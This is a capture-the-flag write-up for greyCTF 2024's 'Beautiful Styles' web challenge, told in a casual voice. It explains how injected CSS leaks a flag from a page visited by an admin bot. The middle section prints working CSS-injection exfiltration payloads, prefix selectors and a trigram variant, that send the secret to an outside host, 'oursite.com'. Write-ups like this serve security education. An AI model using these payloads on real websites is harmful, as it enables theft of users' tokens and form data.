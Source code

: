 ```yaml
---
title: Beautiful Styles
date: 2024-04-27
tags: 
- web
- css
- author-hartmannsyg
- writeup-prize
categories: greyCTF 2024
---
```


solved by {% person hartmannsyg %}

> I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. Flag only consists of numbers and uppercase letters and the lowercase character `f` (the exception is the flag format of grey{.+})<br>
> Author: Junhua
> http://challs.nusgreyhats.org:33339

Or, if you were working on the challenge in the beginning:

> I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. Flag <u>*only consists of numbers and uppercase letters*</u>

We are given a website to submit css:

![](../../static/greyCTF2024/bs1.png)

Our css will then be loaded, and we have to somehow extract the flag in this `<input>`:

![](../../static/greyCTF2024/bs2.png)

When we submit the css for "judging", what just means is that the admin bot will visit that page with the real flag in the `<input>`

Since we can only inject css, we can't xss, so how can we exfiltrate for the flag?

## CSS Injection

### The normal way

We can host our own website, and exfiltrate each character of the flag one at a time

{% ccb gutter1:1-6,S,73-78 lang:css %}
#flag[value^="grey{A"] {
    background-image: url(http://oursite.com/A)
}
#flag[value^="grey{B"] {
    background-image: url(http://oursite.com/B)
}
/*SKIP_LINE:(...)*/
#flag[value^="grey{Y"] {
    background-image: url(http://oursite.com/Y)
}
#flag[value^="grey{Z"] {
    background-image: url(http://oursite.com/Z)
}
{% endccb %}

This uses a css attribute selector. So for example, if our flag starts with `grey{X`, this css will load:
```css
#flag[value^="grey{A"] {
    background-image: url(http://oursite.com/A)
}
```
and we receive a request with the url `http://oursite.com/X`. This way, we know that the flag starts with `X`

> Note that you also need to check for numbers (and `f`) as well. 

But what if you found this too slow and wanted to blood it?

### My way

There is another technique that is used in css exfiltration know as <u>trigrams</u>. Essentially, instead of checking whether an attribute *starts with* something, we check if the attribute *contains* a sequence of characters. (Three is generally optimal since if we only use 2 and there is a repeated character, it becomes hard to reconstruct the flag, and 4 is simply too big to upload most of the time):

{% ccb gutter1:1-11,S,46657 lang:css %}
[value*="000"]{--000:url(http://oursite.com/000);}
[value*="001"]{--001:url(http://oursite.com/001);}
[value*="002"]{--002:url(http://oursite.com/002);}
[value*="003"]{--003:url(http://oursite.com/003);}
[value*="004"]{--004:url(http://oursite.com/004);}
[value*="005"]{--005:url(http://oursite.com/005);}
[value*="006"]{--006:url(http://oursite.com/006);}
[value*="007"]{--007:url(http://oursite.com/007);}
[value*="008"]{--008:url(http://oursite.com/008);}
[value*="009"]{--009:url(http://oursite.com/009);}
[value*="00A"]{--00A:url(http://oursite.com/00A);}
/*SKIP_LINE:(...)*/
#flag[value] { background:var(--000,none),var(--001,none),/*etc...*/; }
{% endccb %}

This is similar to the previous example, but in order to save characters, I have opted to use css variables instead to compress the payload slightly (the url still makes up the bulk on the data)

With all that in place, let's receive our trigrams:

{% ccb terminal:true wrapped:true %}
0UC,1ND,34R,4NF,4RC,C4N,5S3,RCH,NF1,S34,Y0U,X5S,CH1,ND1,D1T,UC4,F1N
{% endccb %}

uhhhhhhhhhhhhhhh, we can construct two substrings of the flag `X5S34RCH1` and `Y0UC4NF1ND1T`, but why is one thing missing????????????

Unfortunately someone else blooded this already.

After dying for several minutes, I decided to fall back on the normal strategy, but it still didn't work. There was nothing after `grey{X5S34RCH1`. Then I decided to mix in lowercase letters (cuz why not). And it turns out there was an `f` after `X5S34RCH1` like what the fuck why is there an `f` there ?????????

<img src="https://media1.tenor.com/m/JIS_KDKKsgYAAAAd/guaton-computadora.gif" width="500rem">

Anyways, I got the flag: `grey{X5S34RCH1fY0UC4NF1ND1T}` (3rd solve)

They later updated the description to include that `f` existed, and then a billion people solved it and it went down to 100 points in like three microseconds so it was all for nothing.

<img src="https://media1.tenor.com/m/kU_EwdsrkLkAAAAC/frieren-dies-cold.gif" width="500rem">

## Scripts